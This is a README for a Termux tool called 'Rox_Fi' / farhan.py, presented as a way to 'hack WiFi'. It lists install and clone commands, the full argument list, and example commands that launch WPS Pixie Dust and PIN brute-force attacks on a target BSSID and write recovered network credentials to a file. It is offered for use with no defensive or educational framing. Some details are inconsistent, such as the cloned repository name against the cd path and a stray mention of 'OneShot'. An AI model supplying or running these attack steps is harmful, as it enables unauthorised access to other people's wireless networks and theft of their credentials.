 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://k.top4top.io/p_2825ur3eq0.jpg
## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**

$ apt update && apt upgrade


$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

### Getting WifiHack

$ git clone https://github.com/Gtajisan/farhan-wifihack

### Running

$ cd farhan

$ chmod +x farhan.py

### One line Command

$ sudo python farhan.py --help

```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

#### Example : `sudo python farhan.py -i wlan0 -K`

#### Note: ( need root)

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python farhan.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python farhan.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
## thanks for tools use
## advance thanks my friends 
## ## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄

